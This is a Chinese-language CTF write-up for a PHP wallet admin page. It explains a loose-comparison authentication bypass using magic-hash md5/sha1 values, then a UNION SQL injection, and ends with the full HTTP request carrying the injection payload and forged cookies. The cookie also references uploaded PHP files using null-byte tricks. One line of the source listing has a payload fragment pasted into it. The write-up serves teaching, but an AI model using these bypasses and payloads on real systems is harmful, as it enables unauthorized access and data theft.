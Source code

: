 ```Php
 	}else { 
			$auth = 0; 
			$s = $auth; 
			setcookie("auth", $s); 
			setcookie("hsh", sha1((string)$s)); 
			} 
 	if ($auth) { 
 		if (isset($_GET['query'])) { 
 			$db = new SQLite3($SQL_DATABASE, SQLITE3_OPEN_READONLY); 
 			$qstr = SQLITE3::escapeString($_GET['query']); 
 			$query = "SELECT amount FROM my_wallets WHERE id=$qstr"; -1 union select flag from flag %23
 			$result = $db->querySingle($query); 
 			if ( !$result === NULL){ 
 				echo "Error - invalid query"; 
 			} else { 
 				echo "Wallet contains: $result"; 
 			} 
 			} else { 
 				echo "<html><head><title>Admin Page</title></head><body>Welcome to the admin panel!<br /><br /><form name='input' action='admin.php' method='get'>Wallet ID: <input type='text' name='query'><input type='submit' value='Submit Query'></form></body></html>"; 
 			} 
 	} else echo "Sorry, not authorized."; ?>
```

一开始就是很典型的弱类型绕过，sha1==md5

弱类型

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO'));
var_dump(md5('aabg7XSs') == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
var_dump('0010e2' == '1e3');
var_dump('0x1234Ab' == '1193131');
var_dump('0xABCdef' == ' 0xABCdef');
var_dump(0 == 'abcdefg');
var_dump(1 == '1abcdef');
?>
```

md5 ：240610708，QNKCDZO，aabg7XSs，aabC9RqS

Sha1:aaroZmOk ，aaK1STfY，aaO8zKZF，aa3OFF9m



后面，就是query处存在注入（这里的难点在于只能知道有flag表。。要猜id）

最后的payload

```http
GET /admin.php?query=-11+and+1=2+union+select+id+from+flag+--+ HTTP/1.1
Host: 218.2.197.235:23723
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: piclist=a%3A6%3A%7Bi%3A0%3Bs%3A44%3A%22upload%2Ff7363981c96e54e1f2d8a66aa5cca157.jpeg%22%3Bi%3A1%3Bs%3A44%3A%22upload%2F620eb40635025e52a20ffdffa20298fc.jpeg%22%3Bi%3A2%3Bs%3A44%3A%22upload%2F77af6d66ab71143e5adf91a4dafe3719.jpeg%22%3Bi%3A3%3Bs%3A42%3A%22upload%2F2bc5ef7c4ded2aae2987bfb71a7a700f.js%22%3Bi%3A4%3Bs%3A46%3A%22upload%2F3608dcbf9c8c241b3b8e757353c34f3c.p%2500hp%22%3Bi%3A5%3Bs%3A46%3A%22upload%2Ff954062fc88b8a7524c79d95ae2a7b4c.php%2500%22%3B%7D; auth=QNKCDZO; hsh=aaroZmOk
DNT: 1
Connection: close
```